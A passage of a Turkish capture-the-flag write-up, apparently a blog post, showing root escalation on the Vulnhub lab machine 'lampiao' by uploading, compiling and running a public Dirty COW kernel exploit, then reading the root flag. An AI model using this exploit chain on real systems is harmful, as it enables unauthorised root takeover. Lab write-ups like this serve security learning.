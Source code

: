 ```text

Last login: Sun Nov 11 18:15:51 2018 from 172.16.0.106
tiago@lampiao:~$
```

Birkaç başarısız deneme ve araştırmadan sonra tekrar exploit arayışına girdim. Sistemin kernel sürümüne uygun bi exploit buldum. Kernel sürümünü şu şekilde öğrenebilirsiniz.

```text
tiago@lampiao:~$ uname -a
Linux lampiao 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 i686 i686 GNU/Linux
```

`4.4.0-31-generic` kernel sürümü için exploit ararken [buradaki](https://www.exploit-db.com/exploits/40847/) exploiti buldum. Ardından `scp` komutu ile bu exploiti sunucuya yükleyip çalıştırabiliriz.

```text
┌─[✗]─[hatsat@HATSAT]─[~/Downloads]
└──╼ $scp 40847.cpp  tiago@172.16.0.177:~
tiago@172.16.0.177's password:
40847.cpp                                                  100%   10KB  14.8MB/s   00:00
```

Şimdi derleyip çalıştıralım.

```text
tiago@lampiao:~$ g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
tiago@lampiao:~$ ./dcow
Running ...
Received su prompt (Password: )
Root password is:   dirtyCowFun
Enjoy! :-)
```

Ve artık root parolası elimizde. Parola: `dirtyCowFun`

```text
tiago@lampiao:~$ su
Password:
root@lampiao:/home/tiago#
```

Şimdi root dizinindeki flag dosyasını okuyabiliriz.

```text
root@lampiao:~# cat /root/flag.txt
9740616875908d91ddcdaa8aea3af366
```

Bu makine boyunca araştırdığım konular şu şekilde.

* metasploit
* meterpreter
* hydra
* cewl
* scp

Bu vulnbubdan [vulnhub](https://www.vulnhub.com) dan çözdüğüm ilk makine idi. Beni oldukça yordu fakat devam edeceğim.

Umarım bu yazı size faydalı olmuştur. Eğer bi hatam varsa bana bildirmekten yorum atmaktan çekinmeyin. Şimdiden teşekkürler. Başarılar....
